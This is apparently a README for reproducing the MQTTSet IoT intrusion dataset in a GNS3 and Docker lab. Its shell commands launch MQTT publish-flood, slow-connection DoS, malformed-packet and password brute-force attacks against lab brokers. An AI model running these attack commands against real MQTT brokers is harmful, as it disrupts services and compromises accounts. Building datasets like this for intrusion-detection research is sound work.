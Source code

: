 # MQTTSet reproduction

## Download our reproduction of MQTTSet

All pcap files can be downloaded [on this website](https://files.inria.fr/aware/gothx-datasets.html)

----

# How to reproduce MQTTSet yourself?

1. start GNS3
2. create a topology similar to the one in MQTTSet
```bash
(venv) $ python3 create_topology_sinetstream.py sinetstream_big
```


----
## reproduce legitimate/normal traffic

Use GNS3 graphical interface
- start all nodes, legitimate traffic begins to be generated automatically
- start traffic capture on links

## Reproduce the attacks

### Remember to capture traffic on links

Execute Malaria attack:
```bash
container_id=$(docker container ls | grep mqtt-malaria | awk '{print $1}')
docker container exec -t $container_id python /root/mqtt-malaria/malaria publish -P 15 -n 8700 -H 192.168.2.1 -s 345 
```

Execute SlowIT attack
```bash
container_id=$(docker container ls | grep mqtt-atta | awk '{print $1}')
tmp_file="tmp_net.config"
cat << EOF > $tmp_file
[Host]
ip_address = broker.neigh.lab
port = 1883
keepalive = 60

[Ddos]
packet = 1000
connections = 1024
EOF
docker container cp $tmp_file $container_id:/SlowTT-Attack/net.config
rm "$tmp_file"
docker container exec -t -w /SlowTT-Attack  $container_id python3 attack.py
# press CTRL+C to stop the attack 
```

Execute malformed data
```bash
container_id=$(docker container ls | grep mqtt-atta | awk '{print $1}')
docker container exec -t -w /mqttsa  $container_id python3 mqttsa.py --md broker.neigh.lab
```

Execute publish flood attack
```bash
container_id=$(docker container ls | grep mqtt-malaria | awk '{print $1}')
docker container exec -t -w /root/mqtt-malaria/ $container_id python malaria publish -P 1 -n 265 -H 192.168.2.1 -s 30700
```


Execute Auth bruteforce attack
```bash
container_id=$(docker container ls | grep mqtt-atta | awk '{print $1}')
# set the number of passwords tried before successfully authenticate (must be less than 1244)
line_correct_pwd=4
docker container exec -t $container_id sed -i '/adminpass/d' /mqttsa/src/words.txt
docker container exec -t $container_id sed -i "${line_correct_pwd}s/.*/adminpass/" /mqttsa/src/words.txt
docker container exec -t -w /mqttsa/ $container_id python3 mqttsa.py -u admin -w src/words.txt broker.steel.lab
```